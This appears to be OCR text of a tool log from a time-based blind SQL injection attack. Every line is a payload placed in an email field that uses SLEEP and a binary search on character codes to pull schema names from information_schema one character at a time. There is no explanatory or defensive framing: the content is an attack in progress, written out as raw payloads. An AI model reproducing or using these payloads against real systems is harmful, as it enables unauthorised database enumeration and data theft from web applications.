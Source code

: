 Field length: 18


Determinating values of field: SCHEMA_NAME

{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=102,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>102,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=101,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=116,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>116,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=114,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}